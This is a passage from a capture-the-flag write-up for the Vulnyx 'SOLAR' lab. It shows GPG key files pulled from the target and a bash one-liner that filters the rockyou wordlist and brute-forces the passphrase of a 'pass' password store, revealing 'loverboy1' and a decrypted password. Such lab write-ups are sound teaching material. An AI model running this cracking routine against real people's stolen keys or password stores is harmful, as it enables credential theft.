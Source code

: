```bash
.#lk0x

000055afe4c8a3f0.solar.309336                      100%   17     5.5KB/s   00:00    
E6DB2B029F01725397A555CD6CE6C909C038D50C.rev             100% 1626   528.3KB/s   00:00    
pubring.kbx~                                             100% 1960   713.3KB/s   00:00    
C622C75FED7EF077FDE1AB4D6A1F5D37E4896A95.key             100% 3105     1.9MB/s   00:00    
18DB29FBB15652340964CF0E1C710F34AA848ADD.key             100% 3105     1.7MB/s   00:00
```

Using `rockyou` and filtering passwords that start with "love" and end with a number, we attempt to find the passphrase used to encrypt the GPG key with the following bash script.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ time grep -E '^love.*[0-9]$' /usr/share/wordlists/rockyou.txt | xargs -P 4 -I {} sh -c 'echo "Testing passphrase: {} ..."; gpg --batch --yes --passphrase "{}" --pinentry-mode loopback --decrypt .password-store/work/office.gpg 2>/dev/null && echo "** Passphrase found: {}" && killall xargs'
Testing passphrase: love123 ...
Testing passphrase: love12 ...
Testing passphrase: loveme1 ...
Testing passphrase: lovely1 ...
Testing passphrase: lover1 ...
...
Testing passphrase: love27 ...
Testing passphrase: lovers2 ...
Testing passphrase: loverboy1 ...
Testing passphrase: love55 ...
Testing passphrase: love77 ...
Testing passphrase: love45 ...
d1NpIh1bCKMx
** Passphrase found: loverboy1
zsh: broken pipe  grep --color=auto -E '^love.*[0-9]$' /usr/share/wordlists/rockyou.txt | 
zsh: terminated   xargs -P 4 -I {} sh -c 

real    21,11s
user    0,05s
sys     0,00s
cpu     0%

real    21,11s
user    0,16s
sys     0,02s
cpu     0%
```

In about 21 seconds, we find the GPG key passphrase `loverboy1` and the decrypted data from `.password-store/work/office.gpg` as `d1NpIh1bCKMx`, although this password won't be needed. We can now view the rest of the passwords in the `pass` manager.

### Node

Now that we have the passphrase (`loverboy1`) for the manager, we can access all passwords.
